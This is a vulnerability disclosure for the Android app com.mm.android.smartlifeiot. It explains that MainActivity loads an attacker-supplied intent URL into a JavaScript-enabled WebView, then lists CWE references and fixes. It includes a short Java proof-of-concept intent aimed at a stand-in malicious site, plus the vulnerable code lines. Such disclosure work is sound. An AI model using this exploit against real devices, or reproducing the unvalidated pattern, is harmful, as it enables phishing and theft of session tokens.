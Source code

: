 ## Vulnerability Report (Revised)

### Introduction:
This vulnerability report outlines a potential security flaw identified in the `com.mm.android.smartlifeiot` app's `com.mm.android.easy4ip.MainActivity`. An attacker can leverage this flaw using a third-party app to load arbitrary web content in the WebView of the vulnerable application.

### Affected Component:
Activity: `com.mm.android.easy4ip.MainActivity`  
App: `com.mm.android.smartlifeiot`

### Vulnerability Description:

The `com.mm.android.easy4ip.MainActivity` activity in the `com.mm.android.smartlifeiot` app allows for the loading of URLs directly from intent data. This can be potentially exploited by a malicious third-party app to force this activity to load malicious web content from a URL specified by the attacker.

### Proof of Concept:

A third-party malicious app (`com.example.d3m0`) can craft and launch an intent targeting `com.mm.android.easy4ip.MainActivity` as follows:

<code>
java
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.mm.android.smartlifeiot", "com.mm.android.easy4ip.MainActivity"));
intent.putExtra("url", "imoulife://http://maliciouswebsitetest.com");
startActivity(intent);
</code>

Upon executing this code, `com.mm.android.easy4ip.MainActivity` would be triggered to load the content from `http://maliciouswebsitetest.com`.

### Code Snippets:

1. In the `com.mm.android.easy4ip.MainActivity`, URLs are loaded directly from intent data without adequate validation:
   
<code>
   java
   this.url = getIntent().getExtras().getString("url");
</code>

3. JavaScript execution is enabled in the WebView:
   
<code>
   java
   this.webView.getSettings().setJavaScriptEnabled(true);
</code>
5. Direct web content loading with the fetched URL:

<code>
   java
   progressWebView.loadUrl(str);
   
</code>

### Impact:

A malicious actor can exploit this vulnerability to execute arbitrary JavaScript within the context of the vulnerable application. This could potentially lead to various attacks, including Remote Code Execution (RCE) if combined with other vulnerabilities, stealing session cookies or tokens, executing actions on behalf of the user within the app context, or displaying phishing content to the user.

### MITRE CWE References:

- [CWE-200: Information Exposure](https://cwe.mitre.org/data/definitions/200.html): Since arbitrary URLs can be loaded, there's a risk of exposing user data.
- [CWE-601: URL Redirection to Untrusted Site ('Open Redirect')](https://cwe.mitre.org/data/definitions/601.html): The application redirects users to any URL without validation.
- [CWE-749: Exposed Dangerous Method or Function](https://cwe.mitre.org/data/definitions/749.html): Due to the WebView configurations and lack of input validation.
- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html): The vulnerability can potentially allow attackers to inject arbitrary code.
- [CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection')](https://cwe.mitre.org/data/definitions/95.html): With JavaScript enabled, an attacker could potentially inject malicious scripts.

### Recommendations:

1. **Intent Data Validation**: Ensure that all intent data, especially URLs, are adequately validated before use.
2. **Disable JavaScript (if not needed)**: If the application does not require JavaScript execution within the WebView, it should be disabled.
3. **Use Web Content Filtering**: Implement a whitelist of allowed domains or URLs that can be loaded in the WebView.
4. **Flag Non-Exported**: If the MainActivity is not intended to be used by third-party apps, ensure that it's flagged as non-exported in the manifest.

### Conclusion:

The described vulnerability is significant and should be addressed promptly. The recommendations provided should be considered for implementation to mitigate the potential risks associated with this flaw.

